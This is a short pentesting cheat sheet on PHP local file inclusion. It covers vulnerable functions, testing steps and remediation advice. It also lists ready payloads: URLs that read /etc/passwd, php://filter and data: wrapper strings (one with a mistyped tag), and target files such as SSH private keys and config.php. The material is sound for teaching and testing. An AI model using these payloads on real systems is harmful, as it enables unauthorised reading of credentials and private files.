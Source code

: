 ## PHP Vulnerable functions:

### Include_once()

### Include()

### require()

#### Example: http://site.com/index.php?file=/etc/passwd (Linux)

#### http://site.com/index.php?file=/windows/win.ini (Windows)

## LFI Testing

#### 1: GET,POST,COOKIE,HTTP header values

#### 2: Valid input to check web server behavior

#### 3: Invalid inputs

#### 4: Use burpsuite or browser address, not only forms

#### 5: Look for errors while entering invalid input to disclose the current path of the web app (trial and error)

#### 6: Understand input validation and check for filters

#### 7: Inject a valid entry to read sensitive files

## File Inclusion Remediation (Both LFI and RFI)

#### 1: Keep systems, services and web apps updated.

#### 2: Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.

#### 3: Web Application Firewall (WAF)

#### 4: Whitelist/Blacklist file names and locations

#### 5: Disable allow_url_fopen and allow_url_include (PHP)

#### 6: Input validation

#### 7: Allow only protocols and PHP wrappers in need.

### PHP WRAPPERS

#### 1) php://filter/convert.base64-encode/resource=.htaccess

#### 2) php://filter/string.rot13/resource=.htaccess

#### 3) php://filter/string.toupper/resource=.htaccess

#### 4) php://filter/string.tolower/resource=.htaccess

#### 5) php://filter/string.strip_tags/resource=.htaccess

### DATA WRAPPER 

#### data:text/plain,<?php phpinfo(); ?<

## Important files to look for:

#### 1) /etc/passwd

#### 2) /home/USER/.ssh/id_rsa

#### 3) /etc/apache2/sites-enabled/000-default.conf

#### 4) /var/www/html/config.php
